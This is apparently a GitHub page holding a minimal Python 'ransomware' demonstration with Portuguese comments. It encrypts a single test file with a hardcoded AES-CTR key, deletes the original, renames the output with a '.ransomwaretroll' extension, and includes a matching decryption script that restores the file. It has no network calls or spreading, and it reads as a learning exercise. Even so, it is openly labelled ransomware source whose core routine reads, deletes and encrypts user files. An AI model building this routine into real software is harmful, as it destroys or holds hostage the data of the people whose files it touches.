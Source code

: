 #criptografia
import os
import pyaes


file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()


os.remove(file_name)


key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)


crypto_data = aes.encrypt(file_data)


new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

#descriptografia
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()



#arquivo

arquivo liberado 
